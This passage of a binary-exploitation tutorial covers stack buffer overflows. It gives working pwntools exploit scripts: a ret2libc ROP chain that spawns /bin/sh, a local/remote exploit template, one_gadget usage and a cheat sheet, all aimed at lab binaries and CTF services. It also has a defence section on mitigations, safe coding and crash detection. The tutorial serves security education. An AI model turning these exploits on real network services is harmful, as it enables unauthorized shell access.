Real targets are network services, not local prompts. The beauty of pwntools is that the *same script* works remotely by swapping `process()` for `remote()`. Set up a local service to mimic the remote (using `socat` to expose the binary on a port), then exploit it over TCP.

### Stand up the "remote" service

```bash
# Expose the vulnerable binary on TCP 1337 (this simulates the CTF/remote host)
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./overflow_nx,pty,raw,echo=0 &
```

### The exploit, written to run locally OR remotely

The professional pattern is one script with a switch, so you develop against a local process (with GDB) and flip to remote for the real target:

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./overflow_nx')

def start():
    if args.REMOTE:                 # run:  python3 xpl.py REMOTE HOST=1.2.3.4 PORT=1337
        return remote(args.HOST, int(args.PORT))
    if args.GDB:                    # run:  python3 xpl.py GDB
        return gdb.debug(elf.path, gdbscript='b vuln\ncontinue')
    return process(elf.path)        # run:  python3 xpl.py   (local, no gdb)

io = start()

offset  = 72
rop     = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]

# For a real remote target you'd leak libc first (Ch 3/4). Here ASLR is off:
libc    = elf.libc
system  = libc.symbols['system']
binsh   = next(libc.search(b'/bin/sh'))

payload  = b'A'*offset
payload += p64(ret)
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

io.recvuntil(b'input: ')
io.sendline(payload)
io.interactive()
```

Run it three ways from the same file:

```bash
python3 xpl.py                 # local process
python3 xpl.py GDB             # local + GDB window for debugging
python3 xpl.py REMOTE HOST=127.0.0.1 PORT=1337   # over the socket
```

```mermaid
sequenceDiagram
    participant X as Exploit (pwntools)
    participant S as Service (socat -> overflow_nx)
    X->>S: connect TCP 1337
    S-->>X: "input: "
    X->>S: padding + ret + pop_rdi + &/bin/sh + system
    Note over S: vuln() ret executes the ROP chain
    S-->>X: /bin/sh
    X->>S: id; cat flag
```

The `args.REMOTE` / `args.GDB` switch is the single most useful habit in exploit development: you debug locally with full GDB, then flip one word to hit the real target with an identical payload.

---

## Part 12: Building the Reusable Exploit Template

Every stack-overflow exploit you write from now on starts from the same skeleton. Keep this as `template.py`:

```python
#!/usr/bin/env python3
from pwn import *

elf  = context.binary = ELF('./target')
# libc = ELF('./libc.so.6')            # if a libc is provided (Ch 3/4)

def start():
    if args.REMOTE: return remote(args.HOST, int(args.PORT))
    if args.GDB:    return gdb.debug(elf.path, gdbscript=GDB)
    return process(elf.path)

GDB = '''
break vuln
continue
'''

# --- stage 0: find offset (run once, then hardcode) -------------------------
# io = process(elf.path); io.send(cyclic(200)); io.wait()
# offset = cyclic_find(io.corefile.read(io.corefile.rsp, 8)); print(offset)

offset = 72

# --- stage 1: build chain ---------------------------------------------------
rop     = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]

payload  = flat({ offset: [ ret, pop_rdi, 0xdeadbeef, elf.plt['system'] ] })

# --- stage 2: deliver -------------------------------------------------------
io = start()
io.recvuntil(b'input: ')
io.sendline(payload)
io.interactive()
```

`flat()` is worth calling out: it builds a payload from a dict of `offset: value` entries, auto-packing ints and padding the gaps — far less error-prone than hand-concatenating `b'A'*72 + p64(...) + ...`. The template embodies every habit: `checksec`-driven strategy, cyclic offset, `ROP`/`ELF` symbol resolution, the local/GDB/remote switch, and `flat()` payload construction.

---

## Part 12B: one_gadget — The Single-Address Shell

Sometimes you have a single leak and only enough room to overwrite one pointer or return address — not enough for a full `pop rdi; /bin/sh; system` chain. `one_gadget` finds "magic" addresses inside libc that spawn a shell in *one jump*, provided certain register/stack constraints hold at the moment you land there.

**What it is.** `one_gadget` scans a libc for code paths that call `execve("/bin/sh", ...)` such that jumping straight to that address gives a shell, and prints each with its constraints.

```bash
one_gadget ./libc.so.6
# 0x50a37 execve("/bin/sh", rsp+0x40, environ)
#   constraints:  rsp & 0xf == 0 && rcx == NULL
# 0xebcf1 execve("/bin/sh", r10, [rsp+0x70])
#   constraints:  [r10] == NULL || r10 == NULL ...
```

Each gadget only works if its **constraints** are satisfied at jump time — usually "some register is NULL" or "RSP is aligned." You pick the one whose constraints your current state happens to meet, then set your single overwrite to `libc.address + one_gadget_offset`:

```python
og = libc.address + 0x50a37          # chosen one_gadget, rebased
payload = b'A'*offset + p64(og)       # a single 8-byte overwrite -> shell
```


**When it matters:** minimal overflows, format-string single-write primitives (Chapter 5), and heap exploits (Chapter 6) where you get exactly one function-pointer overwrite. `one_gadget` is the difference between "I have one write" and "I have a shell." The tradeoff is reliability — if none of the constraints hold in your context, you fall back to a full chain. Always verify in GDB that the chosen gadget's constraints are met before relying on it remotely.

---

## Part 13: Detection & Defense Angle

Stack overflows are the most thoroughly mitigated bug class in existence, which is exactly why each Part above had a caveat. Here is the full defensive picture — for the blue-team reader and for the researcher who must know what they are up against.

**The mitigation stack, and what each Part had to route around:**

| Mitigation | Stops | How the chapter dealt with it |
|------------|-------|-------------------------------|
| **Stack canary** (`-fstack-protector-strong`, default) | overwriting RA via linear overflow | labs built with `-fno-stack-protector`; real bypass = leak the canary (Ch 4) |
| **NX / DEP** (default) | executing shellcode on the stack | forced the move from shellcode (Part 6) to ret2libc/ROP (Part 7, Ch 3) |
| **ASLR** (kernel default) | hardcoding libc/stack addresses | labs ran ASLR-off; real bypass = leak an address (Ch 3/4) |
| **PIE** (default on modern distros) | hardcoding the binary's own addresses | labs `-no-pie`; real bypass = partial overwrite or leak (Ch 4) |
| **FORTIFY_SOURCE** (`-D_FORTIFY_SOURCE=2`) | some unsafe libc calls with known sizes | replaces `strcpy`/`memcpy` with checked variants at compile time |
| **Shadow stack / CET** (hardware, newer CPUs) | return-address tampering | a separate protected copy of RA is compared on `ret` |

The historical arc is legible in that table: shellcode → NX → ret2libc → ASLR → leaks → ROP → canaries → info-leaks → CET. Each defence forced a more sophisticated attack, which is the entire plot of the next several chapters.

**How to write code that is not vulnerable.** Use bounded operations (`fgets(buf, sizeof buf, stdin)` not `gets`; `snprintf` not `sprintf`; `strncpy`/`strlcpy` with correct sizes), never derive a copy length from attacker input without validating it against the destination size, and compile with all mitigations on (they are on by default — do not turn them off). `read(fd, buf, sizeof buf)` instead of a hardcoded larger length would have made our lab binary safe.

**Detecting exploitation at runtime.** A stack-canary abort raises `*** stack smashing detected ***` and `SIGABRT` — a high-signal log event; a crash with `RIP` equal to `0x4141...` or a userland address that is clearly attacker data is the fingerprint of a control-flow hijack attempt in a core dump. **Blue-team usage:** repeated `SIGSEGV`/`SIGABRT` crashes of a network daemon with attacker-controlled RIP values in the cores are the signature of someone bruteforcing an overflow (often defeating ASLR by brute force on 32-bit or via a partial overwrite); wire crash telemetry (systemd-coredump, ABRT) into your monitoring so this is visible.

**Compiler/OS defence-in-depth to enable.** Full RELRO (`-Wl,-z,relro,-z,now`), PIE + ASLR, stack canaries, NX, FORTIFY, and on supported hardware CET shadow stacks. None of these individually is sufficient — the labs show each being bypassed — but stacked together they turn a one-line `gets` bug from "instant shell" into "needs an info leak plus a canary leak plus a ROP chain," which is the difference between a trivial and an expert-level exploit, and often the difference between exploited and not.

---

## Part 14: Common Pitfalls

- **Wrong offset from hand-counting.** Alignment padding makes `sizeof(buf)+8` wrong as often as right. Always `cyclic` it.
- **Forgetting stack alignment before `system`.** A `movaps` fault deep in libc means RSP was not 16-byte aligned at the call — add one bare `ret` gadget before the call.
- **Bad bytes silently truncating the payload.** A `\x00` under `strcpy` or `\n` under `gets` cuts your input. Identify the input function, enumerate bad bytes, and encode around them.
- **Hardcoding addresses that ASLR moves.** An address seen in GDB (ASLR off) is meaningless when the target runs with ASLR on. Only hardcode truly-fixed addresses; derive the rest from a leak.
- **Big-endian / hand-packed addresses.** Always `p64()`/`flat()`; never type address bytes manually.
- **Testing only in GDB.** GDB changes the environment and stack layout; an exploit that works in GDB but not outside it is usually an offset shifted by env vars. Test outside GDB, and prefer leaks over absolute stack addresses.
- **Sending with the wrong function.** `sendline` appends `\n` (great for line protocols, fatal if `\n` is a bad byte in your payload); `send` does not. Choose deliberately.
- **Assuming `win` "just works."** If `win` calls `system`, you still owe it stack alignment and sometimes a valid RDI. Trace it in GDB if the shell does not appear.
- **Leaking then reusing a stale libc offset.** The `libc.symbols['puts']` offset must come from the *exact* libc the target runs, not your system's. In CTFs use the provided `libc.so.6`; identify an unknown one with a libc-database lookup (e.g. from two leaked symbol low-bytes).
- **Unpacking a 6-byte leak as 8 bytes wrong.** libc addresses are 6 meaningful bytes; `u64(leak.ljust(8, b'\x00'))` pads correctly. Forgetting the `ljust` mis-parses the value and rebases libc to garbage.
- **`recvline()` eating the wrong line.** If the program prints a banner before the leak, your `recvline()` may capture the banner, not the address. Match precisely with `recvuntil` on a known marker, then read.
- **Confusing GOT overwrite viability.** GOT overwrite needs Partial RELRO; under Full RELRO the GOT is read-only and you must pivot to ret2libc/ROP. Always confirm with `checksec` before committing to the technique.
- **Testing the pivot without pre-filling the fake stack.** A `leave; ret` pivot into an empty buffer just crashes; stage the full chain at the pivot target *first*, then trigger the pivot.

---

## Part 15: Final Revision / Summary

- A stack frame places the **saved return address at `rbp+8`, just past saved RBP, just past the locals**; a buffer fills upward into it. The buffer-to-RA distance is the one number your exploit needs — measure it with `cyclic`, never count.
- **`checksec` first**: canary/NX/PIE/RELRO dictate the technique before you write a byte.
- **pwntools** is the framework: `process`/`remote` (same API), `p64`/`u64`, `cyclic`/`cyclic_find`, `ELF`/`ROP` symbol and gadget resolution, `flat()` payloads, `gdb.debug`/`gdb.attach`, and `io.interactive()`.
- **ret2win** overwrites RA with an existing function's address — the most reliable primitive when a helpful function exists (mind stack alignment).
- **Stack shellcode** works only when NX is off; use a **NOP sled** or **`jmp rsp`** for robustness. NX makes this obsolete on modern systems.
- **ret2libc** defeats NX by returning into `system` with `"/bin/sh"` in RDI via a `pop rdi; ret` gadget — the two-gadget seed of full ROP (Chapter 3). It depends on knowing libc's base, which real targets hide behind ASLR (leak it, Chapters 3–4).
- **Bad bytes** (NUL for `strcpy`, `\n` for `gets`) truncate payloads — identify the input function and encode around them.
- **Partial overwrites / off-by-one** change only the low bytes of a pointer, dodging null bytes and beating partial randomisation (PIE low 12 bits are fixed).
- Build every exploit from a **reusable template** with a local/GDB/remote switch; develop locally under GDB, flip one word to hit the real service.
- Defensively, the canary→NX→ASLR→PIE→CET stack is what turns a one-line bug from instant shell into an expert-level, multi-primitive exploit — keep every mitigation enabled and wire crash telemetry into monitoring.
- **The two-stage leak** — call `puts(puts@got)`, rebase libc from the printed address, return to `vuln`, then ret2libc for real — is the pattern that makes ret2libc work against ASLR, and it recurs through Chapters 3–4.
- **Know your architecture:** 32-bit passes args on the stack (no `pop rdi` needed) and its addresses rarely contain nulls; 64-bit uses registers, needs 16-byte alignment for `system`, and its addresses usually contain null bytes.
- **Stack pivoting** (`leave; ret`, `pop rsp`) bridges a tiny overflow to a long chain staged in a buffer you fully control; **GOT overwrite** (Partial RELRO only) redirects a function pointer without racing `ret`.

---

## Part 16: Cheat Sheet / Quick Reference

**Recon**

```bash
pwn checksec ./target                  # canary / NX / PIE / RELRO -> strategy
ROPgadget --binary ./target | grep 'pop rdi'   # find the arg gadget
one_gadget ./libc.so.6                 # magic single-gadget shells (Ch 3/4)
```

**Offset**

```python
io=process(e.path); io.send(cyclic(200)); io.wait()
cyclic_find(io.corefile.read(io.corefile.rsp,8))   # exact padding
```

**Payloads**

```python
p64(addr); u64(leak.ljust(8,b'\x00'))              # pack / unpack
flat({offset: [ret, pop_rdi, binsh, system]})      # build chain
b'A'*offset + p64(elf.symbols['win'])              # ret2win
asm(shellcraft.amd64.linux.sh())                   # shellcode (NX off)
```

**Deliver / debug**

```python
process(path) / remote(host,port)                  # local / remote (same API)
gdb.debug(path, gdbscript='b vuln\nc')             # local + GDB
io.recvuntil(b'input: '); io.sendline(payload); io.interactive()
```

**ret2libc chain (ASLR off / base known)**

```
[padding] [ret (align)] [pop rdi; ret] [&"/bin/sh"] [&system]
```

**Bad bytes:** `gets`→`\n`; `strcpy/sprintf`→`\x00`; `read`→none. Encode/reorder around them.

---

## Part 17: Practice Labs & Resources

Every item below trains a specific technique from this chapter:

- **ROP Emporium — `ret2win`, `split`, `callme`, `write4`.** The canonical progression: `ret2win` is Part 5; `split` is ret2libc/argument setup (Part 7); `callme`/`write4` push into multi-gadget ROP (Chapter 3). Do them in order, x86-64.
- **picoCTF — Binary Exploitation (`buffer overflow 1/2/3`, `stack cache`, `here's a libc`).** Beginner-to-intermediate; `buffer overflow 1` is offset+ret2win, higher numbers add arguments and libc.
- **pwn.college — Memory Errors / Stack module.** Dozens of graded stack-overflow challenges with increasing mitigation; the best volume practice for offsets, shellcode, and ret2libc.
- **Nightmare (guyinatuxedo) — stack-overflow chapters.** Walkthrough-backed real CTF challenges; each has a full pwntools solution to compare against yours.
- **Exploit Education — Phoenix (`stack-*` levels).** Source-provided vulnerable programs, perfect for the "read the C, confirm the frame in GDB, overflow it" loop.
- **HackTheBox — pwn challenges (easy) and the "Intro to Binary Exploitation" track.** Remote services that exercise the `remote()`/socat/`args.REMOTE` workflow from Lab B.
- **`ROPgadget` / `ropper` / `one_gadget` docs.** Learn the gadget-finding tools you will lean on from Chapter 3 onward.

Graduation test for this chapter: take an unseen easy pwn binary, and with one templated pwntools script, go from `checksec` to a popped shell **remotely** — using a cyclic-derived offset, a `ROP`-resolved gadget, and the `args.REMOTE` switch. If you can do that reliably, Chapter 3's full ROP and Chapter 4's ASLR/canary leaks are the natural next steps.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/vuln-research-binexp/02-stack-buffer-overflows-from-crash-to-working-exploit), with comments and the latest edits.*
